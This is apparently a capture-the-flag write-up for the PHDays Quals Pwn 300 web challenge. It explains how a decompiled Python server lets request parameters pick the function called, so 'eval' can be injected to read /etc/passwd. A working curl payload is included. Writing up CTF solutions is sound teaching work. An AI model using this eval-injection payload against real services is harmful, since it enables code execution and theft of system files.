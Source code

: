 # PHDays Quals Pwn 300

PWN 300 is a 'south park administration' website.

It only has a form:

* Select between {Kenny, Stan, Kyle, Eric, Butters, Token}
* Radio buttons for {Kill, Arrest, Bankrupt}
* Submit button

Click submit, and it'll return a message like `Kenny was killed`,
depending on the input.

The html source code provides a comment, stating that **the flag is inside
of /etc/passwd**. We are also given the source code for the website.

**web.py** is a python twisted web server.
By default, it serves the main web page, which is hard coded as a
string. For POST requests, it passes the arguments from the request to a
function from the other file.

**process.pyc** is compiled python that web.py makes use of.

We decompile process.pyc to get process.py. Thanks [unpyc](http://code.google.com/p/unpyc/). There is one issue with the decompiled code. A line inside of the 'create_function' function in process.py reads: 

    consts = ((None,) + (human))

Which doesn't work. Change it so that it does what it probably was meant
to do.

    consts = tuple([None, human])

Now it is possible to run web.py locally and have the same output as the
online version.

**process.py** provides a function that dynamically builds up another
function. What it does:

* Builds up an list of information needed for a python code object.
* Passes the list into types.codeType to generate a python code object.
* Passes the python code object into types.FunctionType to create a function.
* Calls the resultant function and passes the output string back to
  web.py.

It turns out that we don't actually need to understand how python code
objects work to exploit this.

Here is the bottom of process.py, which is all that we actually need to
exploit this.

    ```python
    def kill(name):
        return ('%s was killed' % name)

    def arrest(name):
        return ('%s was arrested' % name)

    def bankrupt(name):
        return ('%s was bankrupted' % name)

    def process(args):
        actions = tuple(args['actions'])
        choice = args['choice'][0]
        human = args['human'][0]
        return create_function('myfunc', 0, choice, actions, human)()
    ```

When printed, args looks like this (depends on what the web client passes in):

    kill kenny   {'actions': ['kill', 'arrest', 'bankrupt'], 'human': ['Kenny'], 'choice': ['\x00']} 

Based on the value inside of 'choice', process.py will choose one of the
options inside of 'actions', which correspond to function names to use
in the dynamically generated function. The first value inside of 'human'
gets passed in as an argument. We can replace one of the functions with
eval. We want args to look like:

    {'actions': ['eval', 'arrest', 'bankrupt'], 'human': ['str(open("/etc/passwd"))'], 'choice': ['\x00']}

Construct a request to send in these parameters:

    $ curl -d "actions=eval&actions=arrest&human=str(open(\"/etc/passwd\").read())&choice=%00" http://ctf.phdays.com:2137

And it dumps /etc/passwd, which contains the flag in plaintext
